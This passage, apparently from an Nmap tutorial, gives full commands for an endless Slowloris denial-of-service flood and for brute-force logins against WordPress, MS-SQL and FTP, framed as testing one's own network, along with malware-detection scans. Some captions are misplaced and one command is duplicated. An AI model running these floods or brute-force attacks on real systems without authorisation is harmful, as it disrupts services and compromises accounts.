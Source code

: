 As you can see, in this vulnerability test we were able to detect one CVE (Slowloris DOS attack).

# 14. Flood testing with Nmap
Nmap features never seem to end, and thanks to the NSE, that even allows us to launch flood attacks against our network to test how effective our mitigation methods are.

In our previous example (#12) we found the host was vulnerable to Slowloris attack, and now we’ll try to exploit that vulnerability by launching a flood attack in a forever loop:

nmap 192.168.1.105 -max-parallelism 800 -Pn --script http-slowloris --script-args http-slowloris.runforever=true

# 15. Testing brute force attacks
NSE is really fascinating -- it contains scripts for everything you can imagine. See the next three examples of BFA against WordPress, MSSQL, and FTP server:

nmap -sV --script http-wordpress-brute --script-args 'userdb=users.txt,passdb=passwds.txt,http-wordpress-brute.hostname=domain.xyz, http-wordpress-brute.threads=3,brute.firstonly=true' 192.168.1.105

WordPress brute force attack:

nmap -p 1433 --script ms-sql-brute --script-args userdb=customuser.txt,passdb=custompass.txt 192.168.1.105

Brute force attack against MS-SQL:

nmap -p 1433 --script ms-sql-brute --script-args userdb=customuser.txt,passdb=custompass.txt 192.168.1.105

FTP brute force attack:

nmap --script ftp-brute -p 21 192.168.1.105

# 16. Detecting malware infections on remote hosts
Nmap is able to detect malware and backdoors by running extensive tests on a few popular OS services like Identd, Proftpd, Vsftpd, IRC, SMB, and SMTP. It also has a module to check for popular malware signs inside remote servers and integrates Google’s Safe Browsing and VirusTotal databases as well.

A common malware scan can be performed by using:

nmap -sV --script=http-malware-host 192.168.1.105

Or using Google’s Malware check:

nmap -p80 --script http-google-malware infectedsite.xyz




# Output only the IP addresses of the online machines with nmap
nmap -sP 192.168.1.0/24 | awk '/is up/ {print up}; {gsub (/\(|\)/,""); up = $NF}'
